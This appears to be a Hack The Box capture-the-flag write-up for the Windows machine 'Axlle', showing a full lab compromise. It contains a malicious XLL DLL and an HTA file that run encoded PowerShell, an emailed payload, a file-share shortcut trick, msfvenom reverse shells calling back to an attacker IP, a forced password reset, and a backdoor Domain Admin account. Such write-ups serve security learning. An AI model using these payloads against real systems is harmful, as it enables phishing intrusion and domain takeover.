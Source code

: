 ```yaml
---
title: HTB-Axlle
draft: false
tags:
  - htb
  - windows
  - active-directory
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/Axlle.png)

## Information Gathering
### Rustscan

`rustscan --addresses 10.10.11.21 --range 1-65535`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image.png)


## Enumeration
### HTTP - TCP 80
axlle.htb /etc/hosts

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-1.png)

> If you have any outstanding invoices or requests, please email them to accounts@axlle.htb in Excel format. Please note that all macros are disabled due to our security posture.

## Shell as gideon.hamill
### XLL Exec

https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/office-attacks/#xll-exec


```c
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void);

void __cdecl xlAutoOpen() {
    WinExec("powershell -e <snipped>pAA==", 1);
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-3.png)

`x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll exploit.c -luser32`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-4.png)


`swaks --to accounts@axlle.htb --from root@test.htb --body "Shell" --header "Subject: Help me Breach the System" --attach @shell.xll`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-5.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-2.png)

## Privesc: gideon to dallon

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-6.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-7.png)

### HTA

https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows#hta-example


```hta 
<html>
<head>
<HTA:APPLICATION ID="shell">
<script language="javascript">
        var c = "powershell -e <snipped>pAA==";  
        new ActiveXObject('WScript.Shell').Run(c, 0, true); 
</script>
</head>
<body>
<script>self.close();</script>
</body>
</html>
```

```
$url = "file://10.10.14.36/share/shell.hta"
$shortcutPath = "C:\inetpub\testing\shell.url"
$shortcutContent = "[InternetShortcut]`r`nURL=$url"
Set-Content -Path $shortcutPath -Value $shortcutContent
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-9.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-8.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-10.png)


## Privesc: dallon to jacob
### Bloodhound

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-11.png)


`impacket-smbserver share $(pwd) -smb2support`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-12.png)

```
net use * \\10.10.14.23\share
copy 20240626183912_BloodHound.zip Z:
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-13.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-14.png)

### ForceChangePassword

> The members of the group WEB DEVS@AXLLE.HTB have the capability to change the user JACOB.GREENY@AXLLE.HTB's password without knowing that user's current password.

`copy \\10.10.14.23\share\PowerView.ps1`

```
$pass = ConvertTo-SecureString 'SuperSecuredPassword123!' -AsPlainText -Force
Set-DomainUserPassword -Identity Jacob.Greeny -AccountPassword $pass
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-15.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-16.png)

## Privesc: jacob to administrator

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-17.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-18.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-19.png)

`icacls standalonerunner.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-20.png)

`msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe  LHOST=10.10.14.23 LPORT=9001 -o rev.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-21.png)

`wget http://10.10.14.23:1234/rev.exe -o standalonerunner.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-22.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-23.png)

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.23 LPORT=9001 -f exe -o rev.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-25.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-24.png)

## Persistence

```
net user hacker P@ssw0rd! /add
net group "Domain Admins" /add hacker
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-26.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-27.png)

## References
- https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/office-attacks/#xll-exec
- https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows#hta-example
